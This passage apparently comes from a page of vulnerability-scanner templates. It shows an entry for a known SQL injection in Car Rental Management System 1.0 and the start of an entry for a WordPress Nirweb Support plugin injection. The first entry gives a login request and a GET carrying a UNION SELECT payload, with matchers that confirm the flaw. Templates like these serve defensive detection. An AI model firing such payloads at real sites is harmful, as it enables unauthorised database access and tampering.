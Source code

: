 ## Description

- Car Rental Management System 1.0 contains an SQL injection vulnerability via /admin/manage_user.php?id=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,authenticated

## Requests

### Step - 1

```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```

### Step - 2

```
GET /admin/manage_user.php?id=-1%20union%20select%201,md5({{num}}),3,4,5--+ HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

**Type - status**

- status
  1. 200

---

# WordPress Nirweb Support \<2.8.2 - SQL Injection

## Description

- WordPress Nirweb support plugin before 2.8.2 contains a SQL injection vulnerability. The plugin does not sanitize and escape a parameter before using it in a SQL statement via an AJAX action. An attacker can possibly obtain sensitive information from a database, modify data, and/or execute unauthorized administrative operations in the context of the affected site.
